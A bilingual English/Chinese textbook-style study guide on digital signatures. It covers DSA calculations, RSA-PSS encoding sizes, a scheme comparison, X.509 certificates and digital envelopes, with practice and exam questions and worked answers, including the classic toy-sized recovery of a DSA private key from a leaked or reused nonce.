(d) \(w=5^{-1}\bmod11=9\); \(u_1=6\cdot9\bmod11=10\); \(u_2=7\cdot9\bmod11=8\). Then \(g^{10}=4^{10}\bmod23=6\) and \(y^8=2^8\bmod23=3\), so \(v=(6\cdot3\bmod23)\bmod11=18\bmod11=7=r\). Valid.(d) \(w=5^{-1}\bmod11=9\)；\(u_1=6\cdot9\bmod11=10\)；\(u_2=7\cdot9\bmod11=8\)。然后得到 \(g^{10}=4^{10}\bmod23=6\) 与 \(y^8=2^8\bmod23=3\)，因此 \(v=(6\cdot3\bmod23)\bmod11=18\bmod11=7=r\)。有效。
Q2. (Explain) (a) Why must DSA choose a new \(k\) if \(s=0\)? (b) An attacker learns the \(k\) used for the signature \((r,s)\) on \(M\). How does she obtain the private key? Check with Q1.Q2.（解释）(a) 若 \(s=0\)，为什么 DSA 必须重新选取 \(k\)？(b) 攻击者得知在对 \(M\) 的签名 \((r,s)\) 中所用的 \(k\)。她如何获得私钥？用 Q1 进行核对。
Answer
(a) Verification needs \(w=s^{-1}\bmod q\), which does not exist for \(s=0\). Moreover \(s=0\) means \(H(M)+xr\equiv0\), so the signature itself would reveal \(x=-H(M)\,r^{-1}\bmod q\).(a) 验证需要 \(w=s^{-1}\bmod q\)，而对于 \(s=0\) 它并不存在。此外，\(s=0\) 意味着 \(H(M)+xr\equiv0\)，因此签名本身就会泄露 \(x=-H(M)\,r^{-1}\bmod q\)。
(b) From \(s\equiv k^{-1}(H(M)+xr)\) we get \(x=r^{-1}(sk-H(M))\bmod q\). In Q1: \(x=7^{-1}(5\cdot3-6)\bmod11=8\cdot9\bmod11=6\), the private key.(b) 由 \(s\equiv k^{-1}(H(M)+xr)\) 可得 \(x=r^{-1}(sk-H(M))\bmod q\)。在 Q1 中：\(x=7^{-1}(5\cdot3-6)\bmod11=8\cdot9\bmod11=6\)，即私钥。
思路：k 一旦泄露，s 的定义式只剩 x 一个未知数，直接解出。
RSA-PSS and a Comparison of the Schemes ★★RSA-PSS 与各方案的比较
Goal. Compute the sizes in an RSA-PSS encoding, explain the role of the salt, and compare the five signature schemes of this chapter.目标。 计算 RSA-PSS 编码中各部分的长度，解释盐值的作用，并比较本章的五种签名方案。
Step 1: why a probabilistic scheme第 1 步：为什么要用概率方案
In words: RSA-PSS = RSA signing with a fresh random salt inside the padded hash, so that forging is closely tied to breaking RSA.用文字表述：RSA-PSS = 在填充后的哈希中加入一个新的随机盐值的 RSA 签名，使得伪造与破解 RSA 紧密相关。
Older RSA signature schemes differ in the padding that embeds the hash in a message representative. For them no proof shows that forging is as hard as breaking RSA. RSA-PSS (Probabilistic Signature Scheme) adds a random salt（盐值）. Its security is closely related to that of RSA itself.较早的 RSA 签名方案在把哈希值嵌入消息表示时所用的填充方式各不相同。对于它们，没有证明表明伪造与破解 RSA 一样困难。RSA-PSS（概率签名方案）加入了随机的盐值。它的安全性与 RSA 本身的安全性紧密相关。
A mask generation function (MGF)（掩码生成函数）stretches a short seed into a long pseudorandom string. MGF1 hashes the seed with a 32-bit counter and joins the results.掩码生成函数（MGF）把一个短种子扩展为一个长的伪随机串。MGF1 用 32 位计数器对种子做哈希，并把各结果拼接起来。
Step 2: signing第 2 步：签名
How to do it: the constants are \(\text{padding}_1\) (eight 00 octets) and \(\text{padding}_2\) (\(emLen-sLen-hLen-2\) octets 00 followed by one octet 01). The salt length \(sLen\) is typically \(hLen\). \(emBits\) is one less than the bit length of the modulus \(n\), and \(emLen=\lceil emBits/8\rceil\) octets.具体做法：常量为 \(\text{padding}_1\)（八个 00 八位组）和 \(\text{padding}_2\)（\(emLen-sLen-hLen-2\) 个 00 八位组，后接一个 01 八位组）。盐值长度 \(sLen\) 通常取 \(hLen\)。\(emBits\) 比模数 \(n\) 的位长少 1，并占 \(emLen=\lceil emBits/8\rceil\) 个八位组。
- \(mHash=\text{Hash}(M)\). Choose a random salt of \(sLen\) octets. \(M'=\text{padding}_1\,\Vert\,mHash\,\Vert\,\text{salt}\).\(mHash=\text{Hash}(M)\)。选取一个 \(sLen\) 个八位组的随机盐值。\(M'=\text{padding}_1\,\Vert\,mHash\,\Vert\,\text{salt}\)。
- \(H=\text{Hash}(M')\). \(DB=\text{padding}_2\,\Vert\,\text{salt}\).
- \(maskedDB=DB\oplus\text{MGF}(H,\,emLen-hLen-1)\). Set the leftmost \(8\,emLen-emBits\) bits to 0, so that \(EM<n\).\(maskedDB=DB\oplus\text{MGF}(H,\,emLen-hLen-1)\)。把最左边 \(8\,emLen-emBits\) 位设为 0，使 \(EM<n\)。
- \(EM=maskedDB\,\Vert\,H\,\Vert\,\text{BC}\), where BC is the octet 0xBC.\(EM=maskedDB\,\Vert\,H\,\Vert\,\text{BC}\)，其中 BC 为八位组 0xBC。
- The signature is \(S=EM^d \bmod n\), with the private exponent \(d\).签名为 \(S=EM^d \bmod n\)，其中使用私指数 \(d\)。


Step 3: verification第 3 步：验证
In words: the verifier undoes the mask, reads the salt out of the block, rehashes and compares.用文字表述：验证者先去掉掩码，从数据块中读出盐值，再重新哈希并比较。
- Compute \(EM=S^e \bmod n\), with the public exponent \(e\). Check that \(emLen\ge hLen+sLen+2\) and that the last octet is BC.用公指数 \(e\) 计算 \(EM=S^e \bmod n\)。检查 \(emLen\ge hLen+sLen+2\)，并检查最后一个八位组是否为 BC。
- Split \(EM\) into \(maskedDB\) (first \(emLen-hLen-1\) octets) and \(H\) (next \(hLen\) octets). Check that the leftmost \(8\,emLen-emBits\) bits of \(maskedDB\) are 0.把 \(EM\) 拆分为 \(maskedDB\)（前 \(emLen-hLen-1\) 个八位组）和 \(H\)（接下来的 \(hLen\) 个八位组）。检查 \(maskedDB\) 最左边的 \(8\,emLen-emBits\) 位是否都为 0。
- Compute \(DB=maskedDB\oplus\text{MGF}(H,\,emLen-hLen-1)\) with those bits cleared. It must begin with \(\text{padding}_2\).把这些比特清零后计算 \(DB=maskedDB\oplus\text{MGF}(H,\,emLen-hLen-1)\)。它必须以 \(\text{padding}_2\) 开头。
- The salt is the last \(sLen\) octets of \(DB\). Compute \(M'=\text{padding}_1\,\Vert\,\text{Hash}(M)\,\Vert\,\text{salt}\) and \(H'=\text{Hash}(M')\). Accept iff \(H=H'\).盐值是 \(DB\) 的最后 \(sLen\) 个八位组。计算 \(M'=\text{padding}_1\,\Vert\,\text{Hash}(M)\,\Vert\,\text{salt}\) 和 \(H'=\text{Hash}(M')\)。当且仅当 \(H=H'\) 时接受。
The verifier recovers the salt from \(DB\) and never needs it in advance. Signing the same message twice gives different signatures, because the salt is fresh. Unlike the DSA value \(k\), the salt is public: reusing it does not reveal the key.验证者从 \(DB\) 中恢复盐值，无需事先知道它。同一消息签名两次会得到不同的签名，因为盐值每次都是新的。与 DSA 中的 \(k\) 不同，盐值是公开的：重复使用它不会泄露密钥。
Step 4: comparing the schemes第 4 步：比较各方案
| ElGamal | Schnorr | DSA | ECDSA | RSA-PSS | |
|---|---|---|---|---|---|
| Hard problem困难问题 | DLP mod \(q\) | DLP mod \(p\), order \(q\) | DLP mod \(p\), order \(q\) | ECDLP | RSA |
| Per-signature random每次签名的随机数 | \(K\), secret | \(r\), secret | \(k\), secret | \(k\), secret | salt, public盐值，公开 |
| Signature签名 | \((S_1,S_2)\), \(2\lvert q\rvert\) bits | \((e,y)\), \(2\cdot160\) bits | \((r,s)\), \(2N\) bits | \((r,s)\), \(2\log_2 n\) bits | one value, \(\lvert n\rvert\) bits |
| Hash input散列输入 | \(M\) | \(M\,\Vert\,x\) | \(M\) | \(M\) | \(M\), then \(M'\) |
| Accept iff接受条件 | \(V_1=V_2\) | \(e=H(M\,\Vert\,x')\) | \(v=r\) | \(v=r\) | \(H=H'\) |
- DSA versus ElGamal: DSA works in the order-\(q\) subgroup of \(Z_p^*\). Its signature is two \(N\)-bit numbers (320 bits for \(N=160\)), not two numbers of the modulus size.DSA 与 ElGamal 的比较：DSA 在 \(Z_p^*\) 中阶为 \(q\) 的子群里工作。它的签名由两个 \(N\) 位的数组成（对 \(N=160\) 为 320 位），而不是两个模数大小的数。
- DSA versus Schnorr: both use the global key \((p,q,g)\). Schnorr hashes the commitment, \(e=H(M\,\Vert\,x)\), and sends \((e,y)\). DSA hashes only \(M\) and sends the reduced commitment \(r\) with \(s\).DSA 与 Schnorr 的比较：两者都使用全局密钥 \((p,q,g)\)。Schnorr 对承诺值 \(e=H(M\,\Vert\,x)\) 做哈希，并发送 \((e,y)\)。DSA 只对 \(M\) 做哈希，并连同 \(s\) 一起发送约化后的承诺值 \(r\)。
Practice练习
Q1. (Calculation) RSA-PSS with a 2048-bit modulus, SHA-256 (\(hLen=32\)) and \(sLen=32\). Find \(emBits\), \(emLen\), the number of bits cleared in the leftmost octet, the length of \(\text{padding}_2\), of \(DB\) and of \(M'\), the number of hash calls MGF1 makes for \(DB\), and the signature length.Q1.（计算）RSA-PSS，模数为 2048 位，使用 SHA-256（\(hLen=32\)）与 \(sLen=32\)。求 \(emBits\)、\(emLen\)，最左侧八位组中被清零的比特数，\(\text{padding}_2\)、\(DB\) 和 \(M'\) 的长度，MGF1 为 \(DB\) 所进行的散列调用次数，以及签名长度。
Answer
\(emBits=2047\) and \(emLen=\lceil2047/8\rceil=256\) octets. Bits cleared: \(8\cdot256-2047=1\). \(\text{padding}_2\): \(256-32-32-2=190\) zero octets plus the octet 01, i.e. 191 octets. \(DB=191+32=223=emLen-hLen-1\) octets. \(M'=8+32+32=72\) octets. MGF1 needs \(\lceil223/32\rceil=7\) hash calls (counters 0 to 6), producing 224 octets of which 223 are used. Check: \(EM=223+32+1=256\) octets. The signature has 256 octets, the length of \(n\).\(emBits=2047\) 与 \(emLen=\lceil2047/8\rceil=256\) 个八位组。被清零的比特数：\(8\cdot256-2047=1\)。\(\text{padding}_2\)：\(256-32-32-2=190\) 个零八位组加上八位组 01，即 191 个八位组。\(DB=191+32=223=emLen-hLen-1\) 个八位组。\(M'=8+32+32=72\) 个八位组。MGF1 需要 \(\lceil223/32\rceil=7\) 次散列调用（计数器取 0 至 6），生成 224 个八位组，其中使用 223 个。检验：\(EM=223+32+1=256\) 个八位组。签名为 256 个八位组，即 \(n\) 的长度。
Q2. (Explain) Signing the same message twice with RSA-PSS gives two different valid signatures, whereas RSA with fixed padding gives identical ones. (a) What causes the difference? (b) State one practical implication of randomised signatures. (c) How does the salt differ from the DSA value \(k\)?Q2.（解释）用 RSA-PSS 对同一消息签名两次，会得到两个不同的有效签名，而使用固定填充的 RSA 则得到相同的签名。(a) 造成这种差异的原因是什么？(b) 说明随机化签名的一项实际影响。(c) 盐值与 DSA 中的 \(k\) 有何不同？
Answer
(a) PSS draws a fresh salt for every signature, so \(M'\), \(H\), \(DB\) and \(EM\) all change; fixed padding has no random input.(a) PSS 为每次签名抽取新的盐值，因此 \(M'\)、\(H\)、\(DB\) 与 \(EM\) 都会改变；固定填充则没有随机输入。
(b) A signature value cannot serve as an identifier of a message, and a repeated message cannot be detected by comparing signatures, so replay protection must come from a timestamp or nonce inside the message. Signing also needs a source of random numbers.(b) 签名值不能用作消息的标识符，而且通过比较签名也无法发现重复的消息，因此重放保护必须依靠消息内部的时间戳或一次性随机数（nonce）。签名还需要随机数源。
(c) \(k\) must stay secret: leaking or reusing it reveals the private key. The salt can be recovered by anyone from the signature and only provides randomisation; reusing it does not expose the key.(c) \(k\) 必须保密：泄露或重用它会暴露私钥。任何人都可以从签名中恢复盐值，它只提供随机化；重用盐值并不会暴露密钥。
Public-Key Certificates and Key Distribution ★★★公钥证书与密钥分发
Goal. Explain how a certificate binds a name to a public key, what a verifier needs to check it, and how a digital envelope sends a large confidential message. Say why plain Diffie–Hellman needs authentication.目标。 说明证书如何把名字和公钥绑定在一起，验证者需要检查什么，以及数字信封如何发送一条大的机密消息。说明为什么普通的 Diffie–Hellman 需要认证。
Step 1: the problem, a forged public key第 1 步：问题——伪造的公钥
In words: a public key is only useful if you know whose it is.用文字表述：公钥只有知道它属于谁时才有用。
Anyone can forge a public-key announcement. Mallory can announce her own key as Bob's. Until the forgery is detected, she can read every message encrypted for Bob, and she can use the forged key to authenticate herself as Bob.任何人都可以伪造公钥公告。Mallory 可以宣称自己的密钥是 Bob 的。在伪造被发现之前，她可以读取所有发给 Bob 的加密消息，还可以用伪造的密钥冒充 Bob 进行身份认证。
Step 2: the certificate第 2 步：证书
In words: certificate = Bob's name and public key, signed by a trusted third party, the CA.用文字表述：证书 = Bob 的名字和公钥，由可信第三方（即 CA）签名。
A public-key certificate（公钥证书）contains a public key and the user ID of its owner, plus issuer information and the validity period. The whole block is signed by a certificate authority (CA)（证书颁发机构）. Anyone can check it with the CA's public key.公钥证书包含一个公钥、其所有者的用户 ID，以及颁发者信息和有效期。整个数据块由证书颁发机构（CA）签名。任何人都可以用 CA 的公钥来检查它。


How it works:工作方式如下：
- The client generates a key pair and sends an unsigned certificate (user ID, public key) to the CA over a secure channel (e.g. face to face).客户端生成密钥对，并通过安全信道（例如面对面）将未签名的证书（用户标识、公钥）发送给 CA。
- The CA hashes it, signs the hash with its private key and returns the signed certificate.CA 对其求散列，用其私钥对散列值签名，并返回已签名的证书。
- Any user hashes the certificate (without the signature) and verifies the signature with the CA's public key: valid or invalid.任何用户都对证书（不含签名）求散列，并用 CA 的公钥验证签名：结果为 有效 或 无效。
The certificate can arrive over any untrusted channel, because only the CA's private key can produce a valid signature. The verifier must hold the CA's public key authentically, for example in its trust store. The universal format is X.509, used by IPsec, TLS, SSH and S/MIME (Chapters 19 and 20). A verifier also checks the validity dates, the name and revocation（吊销）.证书可以通过任何不可信的信道传送，因为只有 CA 的私钥才能产生有效签名。验证者必须真实地持有 CA 的公钥，例如存放在其信任库中。通用格式是 X.509，IPsec、TLS、SSH 和 S/MIME 都使用它（见第 19 和 20 章）。验证者还要检查有效期、名称，以及证书是否已被吊销。
Step 3: key distribution with public-key cryptography第 3 步：用公钥密码分发密钥
Public-key cryptography helps in three ways.公钥密码在三个方面有用。
- Secure distribution of public keys: certificates.安全地分发公钥：证书。
- Distribution of secret keys by public-key encryption: the digital envelope below.用公钥加密分发秘密密钥：即下面的数字信封。
- Creation of temporary keys for message encryption: Diffie–Hellman key exchange (Section 10.1).生成用于消息加密的临时密钥：Diffie–Hellman 密钥交换（见第 10.1 节）。
Diffie–Hellman in its simplest form does not authenticate the partners. An active attacker runs one exchange with each side and sits in the middle (man-in-the-middle（中间人攻击）, Section 10.2). Variants sign or certify the exchanged values.最简单形式的 Diffie–Hellman 不能认证双方身份。主动攻击者分别与双方各做一次交换，并处于中间位置（中间人攻击，见第 10.2 节）。一些变体会对交换的值进行签名或证书认证。
Step 4: the digital envelope第 4 步：数字信封
In words: digital envelope = the message is encrypted with a one-time symmetric key, and that key is encrypted with the recipient's public key.用文字表述：数字信封 = 用一次性对称密钥加密消息，再用接收方的公钥加密该密钥。
A digital envelope（数字信封）protects a message without a pre-shared key. Bob does four things.数字信封在没有预先共享密钥的情况下保护消息。Bob 做四件事。
- He generates a random one-time symmetric key.他生成一个随机的一次性对称密钥。
- He encrypts the message with it.他用这个密钥加密消息。
- He encrypts the one-time key with Alice's public key.他用 Alice 的公钥加密这个一次性密钥。
- He sends both.他把两者都发送出去。
Only Alice can recover the key and hence the message. If Bob took her key from her certificate, he knows that it is valid. The envelope combines symmetric speed with public-key key management.只有 Alice 能恢复密钥，从而恢复消息。如果 Bob 是从 Alice 的证书中取得她的公钥，他就知道这个公钥是有效的。信封兼顾了对称加密的速度和公钥密码的密钥管理便利。

Practice练习
Q1. (Explain) Mallory broadcasts her own public key under Bob's name. (a) What can she do? (b) How does a certificate prevent it? (c) What must Alice already possess to check the certificate?Q1.（解释）Mallory 以 Bob 的名义广播自己的公钥。(a) 她能做什么？(b) 证书如何防止这种情况？(c) Alice 在检验证书之前必须已经拥有什么？
Answer
(a) Until the forgery is discovered she can read every message that senders encrypt for "Bob", and she can authenticate herself as Bob. (b) The binding of Bob's ID to his key is signed by the CA; Mallory cannot produce a valid CA signature for the pair (Bob, her key). (c) Alice needs the CA's public key, obtained in an authentic way (for example from a trust store).(a) 在伪造被发现之前，她可以读取发送方为“Bob”加密的每一条消息，并能以 Bob 的身份进行认证。(b) Bob 的标识与其密钥之间的绑定由 CA 签名；Mallory 无法为（Bob，她的密钥）这一配对生成有效的 CA 签名。(c) Alice 需要以真实可靠的方式获得 CA 的公钥（例如从信任库中获取）。
Q2. (Design) Alice sends Bob a 10 MB confidential contract and wants Bob to be able to prove to a judge that Alice signed it. Using RSA, a hash function and AES, list the steps of Alice and of Bob and the key used in each.Q2.（设计）Alice 向 Bob 发送一份 10 MB 的机密合同，并希望 Bob 能够向法官证明该合同由 Alice 签名。使用 RSA、散列函数和 AES，列出 Alice 与 Bob 各自的步骤，以及每一步所用的密钥。
Answer
Alice: (1) obtain Bob's certificate, verify it with the CA's public key and extract Bob's public key \(PU_B\); (2) compute \(h=H(\text{contract})\) and sign it with her private key \(PR_A\) to get \(S\); (3) choose a random one-time AES key \(K_s\) and encrypt contract and \(S\) with it (sign first, then encrypt); (4) encrypt \(K_s\) with \(PU_B\); (5) send both ciphertexts.Alice：（1）获取 Bob 的证书，用 CA 的公钥验证该证书，并提取出 Bob 的公钥 \(PU_B\)；（2）计算 \(h=H(\text{contract})\)，用她的私钥 \(PR_A\) 对其签名，得到 \(S\)；（3）随机选取一次性 AES 密钥 \(K_s\)，用它加密合同和 \(S\)（先签名，后加密）；（4）用 \(PU_B\) 加密 \(K_s\)；（5）发送两份密文。
Bob: (1) recover \(K_s\) with his private key \(PR_B\); (2) decrypt to get the contract and \(S\); (3) verify \(S\) with Alice's public key, taken from her certificate. He keeps contract and \(S\) as evidence. RSA encrypts only the short key, AES the 10 MB.Bob：（1）用他的私钥 \(PR_B\) 恢复 \(K_s\)；（2）解密得到合同和 \(S\)；（3）用从 Alice 证书中取出的 Alice 公钥验证 \(S\)。他保留合同和 \(S\) 作为证据。RSA 只加密短密钥，AES 加密 10 MB 的数据。
Q3. (True/false) Justify each. (a) A valid signature on a message also keeps it confidential. (b) Unauthenticated Diffie–Hellman resists an active attacker. (c) A user who holds the CA's public key can check a certificate received from an untrusted web server.Q3.（判断）逐项判断并说明理由。(a) 对消息的有效签名同时也能保证其机密性。(b) 未经认证的 Diffie–Hellman 能够抵御主动攻击者。(c) 持有 CA 公钥的用户可以检验从不可信的网络服务器收到的证书。
Answer
(a) False: the message travels in the clear, or anyone can decrypt it with the public key; a signature gives authentication, integrity and non-repudiation only. (b) False: a man-in-the-middle can run a separate exchange with each side; the exchanged values must be authenticated by signatures or certificates. (c) True: validity depends only on the CA's signature, not on the channel (the user should also check validity dates, name and revocation).(a) 错误：消息以明文传输，或者任何人都可以用公钥解密它；签名只提供认证、完整性和不可否认性。(b) 错误：中间人可以分别与双方进行一次独立的密钥交换；交换的值必须通过签名或证书进行认证。(c) 正确：有效性只取决于 CA 的签名，与信道无关（用户还应检查有效期、名称和吊销状态）。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Arbitrated digital signature仲裁数字签名 | Every signed message goes first to a trusted arbiter, who checks and dates it. Both parties must trust the arbiter.每条签名消息都先交给一个可信仲裁者，由他检查并加上日期。双方都必须信任仲裁者。 |
| Hash-based one-time signature基于哈希的一次性签名 | One secret key per bit value; the signature reveals one key per bit. One key set is safe for one message only.每个比特取值对应一个秘密密钥；签名会泄露每个比特对应的一个密钥。一组密钥只能安全地签一条消息。 |
| Domain parameters (ECDSA)域参数（ECDSA） | The shared curve data: prime, curve coefficients, base point \(G\) and its order \(n\).共享的曲线数据：素数、曲线系数、基点 \(G\) 及其阶 \(n\)。 |
| RFC 6979 | A deterministic way to derive \(k\) from the key and the message, so a weak random generator cannot repeat it.一种确定性方法，根据密钥和消息导出 \(k\)，因此弱随机数生成器无法使它重复。 |
| X.509 certificateX.509 证书 | Holds version, serial number, signature algorithm, issuer, validity, subject, subject public key and extensions, then the issuer's signature.包含版本、序列号、签名算法、颁发者、有效期、主体、主体公钥和扩展项，最后是颁发者的签名。 |
| Certificate chain证书链 | Certificates lead up to a self-signed root in the trust store. Each signature is checked in turn.证书一直上溯到信任库中的自签名根证书。每一级签名依次检查。 |
| Revocation吊销 | A certificate can be withdrawn before it expires, using a certificate revocation list or OCSP.证书可以在到期之前吊销，方式为证书吊销列表或 OCSP。 |
| MGF1 | Mask generation function that hashes a seed with a counter; used in RSA-PSS.用计数器对种子做哈希的掩码生成函数，用于 RSA-PSS。 |
Exam-style questions考试题型练习
Q1. (Concepts, 12 marks) (a) Order the five attacks on a signature scheme from weakest to strongest and the four forgery outcomes from most to least severe. (4 marks) (b) Explain why a MAC cannot give non-repudiation but a digital signature can. (3 marks) (c) "A signature is the hash encrypted with the private key." For which of RSA and DSA is this correct? What does DSA do instead? (3 marks) (d) State the order of signing and encryption for a confidential signed message, with the reason. (2 marks)Q1.（概念，12 分）(a) 将签名方案的五种攻击按由弱到强排序，并将四种伪造结果按由最严重到最轻排序。（4 分）(b) 解释为什么 MAC 不能提供不可否认性，而数字签名可以。（3 分）(c) “签名就是用私钥加密的散列值。”这一说法对 RSA 和 DSA 中的哪一个成立？DSA 改用什么方式？（3 分）(d) 说明既签名又需保密的消息中，签名与加密的顺序及其原因。（2 分）
Answer
(a) Attacks: key-only, known message, generic chosen message, directed chosen message, adaptive chosen message. Outcomes: total break (private key found), universal forgery (an efficient signing algorithm), selective forgery (signature on a message chosen by the attacker), existential forgery (signature on some message, not chosen by the attacker).(a) 攻击方式：仅密钥攻击、已知消息攻击、一般性选择消息攻击、定向选择消息攻击、自适应选择消息攻击。伪造结果：完全破解（找到私钥）、通用伪造（得到高效的签名算法）、选择性伪造（对攻击者选定的消息给出签名）、存在性伪造（对攻击者未选定的某条消息给出有效签名）。
(b) A MAC key is shared, so the receiver can compute any valid MAC and the sender can claim the receiver forged the message; a third party cannot tell who created it. A signature needs the sender's private key, which only the sender holds, and anyone can verify it with the public key.(b) MAC 密钥由双方共享，接收方可以计算任何有效的 MAC，发送方也可以声称接收方伪造了消息；第三方无法判断消息由谁生成。签名需要发送方的私钥，只有发送方持有，任何人都可以用公钥验证。
(c) It is correct for the RSA approach, \(S=E(PR,H(M))\), checked by decrypting with \(PU\) and comparing. DSA encrypts nothing: from \(H(M)\), a fresh \(k\), the private key \(x\) and \((p,q,g)\) the signer outputs \((r,s)\); the verifier computes \(v\) from \(H(M')\), \((r',s')\), \(y\) and \((p,q,g)\) and accepts iff \(v=r'\).(c) 这一说法对 RSA 方式成立，即 \(S=E(PR,H(M))\)，验证时用 \(PU\) 解密并比较。DSA 不做加密：签名者根据 \(H(M)\)、新的随机数 \(k\)、私钥 \(x\) 和 \((p,q,g)\) 输出 \((r,s)\)；验证者根据 \(H(M')\)、\((r',s')\)、\(y\) 和 \((p,q,g)\) 计算 \(v\)，当且仅当 \(v=r'\) 时接受。
(d) Sign first, then encrypt message and signature, so that the recipient can keep plaintext and signature as evidence; a signature over the ciphertext would require the decryption key in a dispute.(d) 先签名，后对消息和签名一起加密，这样接收方可以把明文和签名一同保存作为证据；若对密文签名，争议时就需要解密密钥。
易错：攻击由弱到强，伪造结果由强到弱，别搞反。
Q2. (Calculation, 15 marks) DSA with \(p=47\), \(q=23\), \(g=2\) (note \(2^{23}\equiv1 \pmod{47}\)) and private key \(x=9\). (a) Compute the public key \(y\). (2 marks) (b) Sign \(H(M_1)=15\) with \(k=7\). (4 marks) (c) Verify the signature. (5 marks) (d) A second message with \(H(M_2)=4\) is signed with the same \(k\) and gives \((11,18)\). Show how an eavesdropper recovers \(k\) and \(x\). (4 marks)Q2.（计算，15 分）DSA 的参数为 \(p=47\)、\(q=23\)、\(g=2\)（注意 \(2^{23}\equiv1 \pmod{47}\)），私钥为 \(x=9\)。(a) 计算公钥 \(y\)。（2 分）(b) 用 \(k=7\) 对 \(H(M_1)=15\) 签名。（4 分）(c) 验证该签名。（5 分）(d) 另一条消息（\(H(M_2)=4\)）以相同的 \(k\) 签名，得到 \((11,18)\)。说明窃听者如何恢复 \(k\) 和 \(x\)。（4 分）
Answer
(a) \(y=2^9\bmod47=512\bmod47=42\).
(b) \(g^k=2^7=128\equiv34 \pmod{47}\), so \(r=34\bmod23=11\). \(k^{-1}=7^{-1}\bmod23=10\) (since \(7\cdot10=70=3\cdot23+1\)). \(s=10(15+9\cdot11)\bmod23=10\cdot114\bmod23=10\cdot22\bmod23=13\). Signature \((11,13)\).(b) \(g^k=2^7=128\equiv34 \pmod{47}\)，故 \(r=34\bmod23=11\)。\(k^{-1}=7^{-1}\bmod23=10\)（因为 \(7\cdot10=70=3\cdot23+1\)）。\(s=10(15+9\cdot11)\bmod23=10\cdot114\bmod23=10\cdot22\bmod23=13\)。签名为 \((11,13)\)。
(c) \(w=13^{-1}\bmod23=16\) (since \(13\cdot16=208=9\cdot23+1\)); \(u_1=15\cdot16\bmod23=10\); \(u_2=11\cdot16\bmod23=15\). \(g^{u_1}=2^{10}\bmod47=37\) and \(y^{u_2}=42^{15}\bmod47=6\), so \(g^{u_1}y^{u_2}\equiv222\equiv34 \pmod{47}\) and \(v=34\bmod23=11=r\). The signature is valid.(c) \(w=13^{-1}\bmod23=16\)（因为 \(13\cdot16=208=9\cdot23+1\)）；\(u_1=15\cdot16\bmod23=10\)；\(u_2=11\cdot16\bmod23=15\)。\(g^{u_1}=2^{10}\bmod47=37\) 且 \(y^{u_2}=42^{15}\bmod47=6\)，因此 \(g^{u_1}y^{u_2}\equiv222\equiv34 \pmod{47}\) 且 \(v=34\bmod23=11=r\)。该签名有效。
(d) Both signatures have \(r=11\), which exposes the reuse of \(k\). \(s_1-s_2=13-18\equiv18 \pmod{23}\) and \(H_1-H_2=11\), so \(k=11\cdot18^{-1}=11\cdot9=99\equiv7 \pmod{23}\). Then \(x=r^{-1}(s_1k-H_1)=21\cdot(91-15)=21\cdot76\equiv21\cdot7=147\equiv9 \pmod{23}\), the private key.(d) 两个签名的 \(r=11\) 相同，这暴露了 \(k\) 被重用。由 \(s_1-s_2=13-18\equiv18 \pmod{23}\) 与 \(H_1-H_2=11\) 可得 \(k=11\cdot18^{-1}=11\cdot9=99\equiv7 \pmod{23}\)。然后得到 \(x=r^{-1}(s_1k-H_1)=21\cdot(91-15)=21\cdot76\equiv21\cdot7=147\equiv9 \pmod{23}\)，即私钥。
思路：验证用 u1、u2 重算 g^k；k 重用时 r 相同，两个 s 相减消去 x，先解出 k 再解 x。
